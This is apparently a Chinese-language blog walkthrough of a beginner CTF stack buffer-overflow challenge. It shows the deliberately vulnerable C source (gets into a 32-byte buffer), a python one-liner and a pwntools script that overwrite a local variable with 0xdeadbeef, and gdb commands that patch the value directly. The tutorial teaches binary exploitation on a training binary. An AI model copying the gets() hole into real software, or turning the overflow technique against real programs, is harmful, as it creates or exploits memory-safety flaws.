 ﻿# 简介
“pwn"这个词的源起以及它被广泛地普遍使用的原因，源自于魔兽争霸某段讯息上设计师打字时拼错而造成的，原先的字词应该是"own"这个字，因为 ‘p’ 与 ‘o’ 在标准英文键盘上的位置是相邻的，PWN 也是一个黑客语法的俚语词，是指攻破设备或者系统。发音类似"砰”，对黑客而言，这就是成功实施黑客攻击的声音，而在ctf比赛里，pwn是对二进制漏洞的利用

# 获取文件信息
下载这个github库，进入02文件夹
```
https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/76bbf1af747e49519dfae56302d598c0.png)

使用checksec工具可以查看程序更详细的信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/300e5c0ed150403b8d1a264c6a17b875.png)
这也和上一个文件相似，从上到下依次是
```
32位程序
部分RELRO，基本上所有程序都默认的有这个
没有开启栈保护
未启用nx，nx：数据执行
没有pie，意思是程序的内存空间不会被随机化
有读，写，和执行的段，意思是我们可以在程序里写入shellcode
```
# 覆盖堆栈上的变量

现在我们执行程序看看，随意输入一些字符后，程序就退出了

![在这里插入图片描述](https://img-blog.csdnimg.cn/5f2e6728485f4bbea0d7b790876b0fc5.png)

然后我们在数入长一点的字符，可以看到，原来的12345678已经变成大写字母A的ascii码了

![在这里插入图片描述](https://img-blog.csdnimg.cn/ffbc55814adc49ee888420dabb1a91b8.png)

然后我们打开程序的源代码看看

![在这里插入图片描述](https://img-blog.csdnimg.cn/d1da34913e574ff7aa6cd52dcd67ad74.png)

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void do_input(){   
    int key = 0x12345678;   //定义了一个变量key，key的值为0x12345678
    char buffer[32];    //定义了一个变量，名为buffer，有32个字节的缓冲区
    printf("yes? ");    //输出字符串yes?
    fflush(stdout);   //清除缓冲区
    gets(buffer);   //获取我们输入的字符，并存入到buffer变量里
    if(key == 0xdeadbeef){    //如果key = 0xdeadbeef
        printf("good job!!\n");
        printf("%04x\n", key);
        fflush(stdout);    //成功破解程序
    }
    else{   //否则失败
        printf("%04x\n", key);
        printf("...\n");
        fflush(stdout);
    }
}

int main(int argc, char* argv[]){
    do_input();
    return 0;
}
```
这里我们分析了源码，就没必要进行静态分析了

通过分析源代码，我们知道了缓冲区的字节为32个，意思是我们只需要输入32个字符就能填满此程序的缓冲区，多余的字符则会覆盖key原本的值

我们输入32个字符看看，然后再输入一些不同的值

可以看到，key的原本的值被覆盖成b的ascii码了

![在这里插入图片描述](https://img-blog.csdnimg.cn/95e610cf948d40edb0582ffcbdc552a6.png)

从上面分析的源代码可以知道，key的值必须等于十六进制的0xdeadbeef才能输出正确的字符，这种十六进制无法用键盘输入，需要用到python

在这里还有一个知识点是在x86架构里，读取地址是由低到高的，十六进制0xdeadbeef就要从最后一个开始写

```
python2 -c "print ('A'*32+'\xef\xbe\xad\xde')"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/201f5a2d8fb347b49d1d54f7fe9cf2b0.png)


用linux管道符连接程序，可以看到，我们覆盖了key原本的值后成功的破解了程序

![在这里插入图片描述](https://img-blog.csdnimg.cn/e7e84c99b71f4458ba4c145ac2f1eb05.png)

# 动态调试
我们用gdb对程序进行动态调试

```
gdb overwrite
```

然后查看程序里调用的函数
```
info functions
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/49692f1d209e4457b0ecd499f7a1d0d9.png)
然后查看主函数do_input的汇编代码
```
disassemble do_input
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ab8bce1c3bc840a481fe45b70f8323c1.png)

在这里，key的值和我们输入的值做了对比

![在这里插入图片描述](https://img-blog.csdnimg.cn/3a733103c1c544baa4bf6499c11cf725.png)

我们在这里下一个断点
```
b *0x080491e0
```

然后运行程序，随意输入一些值
![在这里插入图片描述](https://img-blog.csdnimg.cn/2218e89884c748568e1d9df5ddc398e3.png)

之后程序会自动运行到断点处停下

![在这里插入图片描述](https://img-blog.csdnimg.cn/b554f21cc28a48f4aa27e32e252ba736.png)

这里将ebp寄存器里的值减去了0xc转换成10进制就是12和0xdeadbeef做了对比，我们可以看一下这个地址的值
```
x $ebp - 0xc
```

现在还是原来的值0x12345678

![在这里插入图片描述](https://img-blog.csdnimg.cn/71b452a5a68d4306a399d117b703ea37.png)

我们可以直接修改这个地址的值
```
set *0xffffd38c = 0xdeadbeef
```
然后再次查看这个地址的值
```
x $ebp - 0xc
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2213d426d3414a4fa3387d2a8856b423.png)

可以看到已经被修改成功了，现在我们输入n继续执行程序

![在这里插入图片描述](https://img-blog.csdnimg.cn/a29c6c2d8b0c4e6692fba0c595447e45.png)


成功破解程序


# pwntools脚本
```
from pwn import *   //导入pwntools模块

io = process('./overwrite')    //运行程序
io.sendline(b'A' * 32 + p32(0xdeadbeef))   //程序运行后发送指定的字符串，格式为32位
print(io.recvall().decode())   //接收输出并且解码
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/54e8625e71204f299840c9a38ace32c9.png)
# 总结
有什么不会或者是错误的地方的可以私信我，看到必回



